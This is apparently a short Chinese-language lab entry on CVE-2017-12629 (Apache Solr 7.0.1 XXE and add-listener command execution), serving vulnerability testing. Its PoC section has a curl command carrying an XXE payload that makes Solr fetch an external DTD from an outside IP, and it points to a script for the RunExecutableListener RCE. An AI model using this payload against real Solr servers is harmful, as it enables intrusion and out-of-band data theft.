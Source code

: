 ## CVE-2017-12629 - add-listener 命令执行特性 / XXE

测试镜像

* src/solr/7.0.1/

参考文档

* [CVE-2017-12629 - Apache Solr XXE & RCE 漏洞分析](https://paper.seebug.org/425/)

Poc

```
# XXE
curl '127.0.0.1/solr/Urahara/select?q={!xmlparser%20v=%27%3C!DOCTYPE%20a%20SYSTEM%20%22http://192.168.154.200/123%22%3E%3Ca%3E%3C/a%3E%27}'

# solr.RunExecutableListener
参考 cve-2017-12629.sh
```
